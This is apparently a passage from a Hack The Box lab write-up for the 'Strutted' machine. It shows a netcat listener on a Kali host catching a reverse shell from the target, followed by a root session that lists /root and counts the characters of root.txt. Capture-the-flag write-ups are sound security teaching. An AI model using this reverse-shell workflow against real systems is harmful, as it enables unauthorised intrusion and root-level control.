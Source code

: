 ```console
┌──(kali㉿kali)-[~/htb/strutted/writeup]
└─$ nc -lvnp 9595          
listening on [any] 9595 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.59] 52712
/bin/sh: 0: can't access tty; job control turned off
# 

```
This shell has root access on the box and can read the root flag.  
```console
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt |wc
      1       1      33


```
